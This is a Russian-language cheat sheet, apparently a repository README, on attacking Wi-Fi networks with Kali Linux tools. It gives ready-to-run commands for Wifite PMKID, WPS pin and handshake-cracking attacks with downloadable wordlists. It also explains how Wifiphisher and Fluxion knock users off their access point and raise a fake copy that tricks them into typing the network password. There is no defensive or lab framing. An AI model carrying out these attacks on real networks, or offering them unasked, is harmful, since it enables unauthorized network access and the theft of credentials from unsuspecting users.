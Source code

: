 # Wifite

Wififte предустановлен в Kali Linux, однако, есть не установленные зависмости.

Доустановка зависимостей для Wifite:

	sudo apt-get update && sudo apt-get upgrade

	sudo apt-get install hcxtools

	sudo apt-get install hcxdumptool 

	git clone https://github.com/hacker3983/pyrit-installer && cd pyrit-installer && sudo bash install.sh
	
Чтобы запустить атаку с заданым временем для PMKID: 

	sudo wifite --pmkid-timeout 30 --random-mac --kill 

Если хотите запустить атаку со своим словарем, то добавьте --dict ~/dict/WPS_Pins.txt - путь до словаря, я использую WPS пин-коды

Чтобы запустить атаку на заданном сетевом интерфейсе добавьте параметр i, например:

	-i wlan0
	
Запустить атаку на WPS:

	sudo wifite --wps-only --bully --ignore-lock --random-mac
	
Запустить взлом перехваченного рукопожатия (Handshake):

	sudo wifite --crack --dict ~/dict/8digitBack.txt --all

*Путь до словаря паролей

**Cловари можно скачать [здесь](https://disk.yandex.ru/d/v4Lbt1p47K8bIw)**



# Wifiphisher 

Для атаки, в которой играет немалую роль социальная инженерия, есть инструмент под названием Wifiphisher. Он деаутентифицирует подключенных пользователей целевой точи доступа и поднимает ее фальшивую копию без пароля. Пользователи, думая что что-то не так с роутером, подключаются с фальшивой точке (к настоящей они не могут подключиться из-за работы нашей программы) и, якобы для обновления прошивки, точка их просит ввести пароль. После ввода пароль приходит нам.
 

**Установка:** 

	sudo apt-get install wifiphisher

**Использование**

	sudo wifiphisher

	

# FLUXION 


Данный инструмент похож на предыдущий, но он более продвинутый. Есть поддержка русского языка. 

Сначала Fluxion захватывает рукопожатие, достает из него хэш пароля, а затем делает всё тоже самое что и wifiphisher, только если пользователь введет верный пароль, Fluxion свернет поддельную точку доступа и атака завершится успехом. Для него лучше иметь дополнительный wifi-адаптер.

**Установка:**

	git clone https://github.com/FluxionNetwork/fluxion && cd fluxion/ && sudo ./fluxion.sh

**Использование:**

	sudo ./fluxion.sh
